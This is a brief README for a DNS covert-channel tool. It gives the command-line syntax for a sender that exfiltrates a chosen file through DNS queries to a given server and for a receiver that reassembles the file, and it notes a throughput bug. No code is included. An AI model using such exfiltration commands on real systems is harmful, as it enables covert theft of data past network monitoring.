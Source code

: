 # DNS-Covert-Channel
Due to an implementation bug this cover channel can only support
the transportation of 12 bytes per 1000 domain names.

Domain names are currently hardcoded in, no need to supply your own
## Use

### Sending
Proper syntax is ./sender --fileIn <filepath> --dns <IP>
- filepath points to the file to exfiltrate
- IP is the DNS server to query

### Receiving
Proper syntax is ./receiver --fileOut <filepath>
- filepath is the location to save the output